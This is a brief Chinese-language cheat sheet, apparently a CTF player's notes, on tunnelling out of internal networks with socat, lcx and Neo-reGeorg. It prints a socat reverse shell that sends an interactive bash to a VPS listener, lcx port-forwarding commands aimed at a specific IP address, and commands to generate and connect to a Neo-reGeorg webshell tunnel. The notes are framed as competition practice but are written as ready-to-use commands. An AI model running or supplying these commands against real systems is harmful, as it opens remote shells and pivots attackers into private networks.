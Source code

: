 # 记录一些代理工具

>目前是用与ctf的内网环境代理出内网。

### socat
>适合?。。。

地址：http://www.iteait.com/archives/603

socat下载:地址
https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

直接wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

```

靶机：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:vps:3333

主机：socat file:`tty`,raw,echo=0 tcp-listen:3333
```

### lcx

将内网的8005端口代理出vps的81端口
```
gcc lcx.c -o lcx

靶机: ./lcx -m 3 -h1 1.116.136.120 -h2 127.0.0.1 -p1 81 -p2 8005
vps:  ./lcx -m 2 -p1 2333 -p2 8005
```

### NeoreGeorg

>2021长安线下使用过 php环境配置浏览器代理

https://github.com/L-codes/Neo-reGeorg

详细使用看readme.md
```
python neoreg.py generate -k password #生成不同连接密码的木马
 
python3 neoreg.py -k password -u http://xx/tunnel.php   #木马

然后就代理到127.0.0.1:1080 然后配合浏览器代理去访问就欧克
```
![image](https://user-images.githubusercontent.com/63966847/137916175-66737e29-ed2c-4930-930f-10c401f718bf.png)





